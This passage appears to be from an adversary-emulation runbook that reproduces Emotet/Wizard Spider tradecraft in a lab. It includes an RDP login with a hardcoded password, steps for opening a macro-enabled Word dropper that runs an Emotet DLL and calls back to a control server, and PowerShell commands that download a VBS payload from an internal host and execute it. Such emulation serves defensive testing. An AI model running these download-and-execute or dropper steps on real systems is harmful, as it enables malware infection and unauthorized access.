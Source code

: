 Open a new terminal tab (ctrl-shift-T); double click the terminal tab and rename it to "RDP to Dorothy"

RDP into Dorothy / 10.0.0.7 as user Judy:

```bash
xfreerdp +clipboard /u:oz\\judy /p:"Passw0rd!" /v:10.0.0.7
```

1. Open outlook if its not already open, log in to Office account if not already logged in

2. Open the ChristmasCard.docm document on the desktop; enable macros when prompted.

3. You should see a terminal flash; wait for it to execute the Emotet DLL.

4. Go back to your control server tab; you should have a new callback.

5. Take a screenshot of your new session, and paste in the vendor slack channel.

```
# Emotet has sent Microsoft Word documents with embedded macros that will invoke scripts to download additional payloads. [6][13][2][8][12]
```
[Source Code - Dropper Word Document](Emotet_Dropper.)

[Source Code - Emotet DLL](Emotet.)


<br>

`For testing without MS Office; be aware that this is not identical to the Word document implementation - the process lineage and file paths change significantly with this method.`

Open PowerShell and run:

```pwsh
Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/adb.txt -OutFile $env:AppData\adb.vbs
```

```pwsh
# Wizard Spider has used HTTP for network communications.[5]

cscript.exe $env:AppData\adb.vbs
```

### :microscope: Cited Intelligence

* https://documents.trendmicro.com/assets/white_papers/ExploringEmotetsActivities_Final.pdf

* https://www.symantec.com/blogs/threat-intelligence/evolution-emotet-trojan-distributor

* https://www.picussecurity.com/blog/the-christmas-card-you-never-wanted-a-new-wave-of-emotet-is-back-to-wreak-havoc.html

* https://www.carbonblack.com/2019/04/24/cb-tau-threat-intelligence-notification-emotet-utilizing-wmi-to-launch-powershell-encoded-code/

* https://blog.talosintelligence.com/2019/01/return-of-emotet.html

## Step 2 - Emotet Persistence
